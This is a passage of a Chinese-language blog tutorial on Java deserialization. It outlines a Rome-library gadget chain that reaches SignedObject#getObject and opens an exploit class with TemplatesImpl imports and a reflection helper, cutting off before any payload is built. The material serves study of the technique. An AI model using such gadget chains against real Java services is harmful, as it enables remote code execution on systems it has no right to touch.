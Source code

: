 [![](assets/1709112106-122902986a23b8b228599104aa34a8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195531-1b9fb9ea-d567-1.png)

那么既然做到了手动触发，那现在的任务就是进行 getter 方法的调用，那其实思路也很清晰，找能够调用 getter 方法的链，刚好也总结一下常见调用 getter 的方法有哪些吧

### getter 触发链分析

#### Rome(HashCode)

利用链

```plain
hashmap#readObject() -> ObjectBean#hashcode() -> EqualsBean#javabeanHashCode() -> ToStringBean#toString()->SignedObject#getObject()
```

EXP

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.HashMap;

public class Sign_RomeToStringBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

```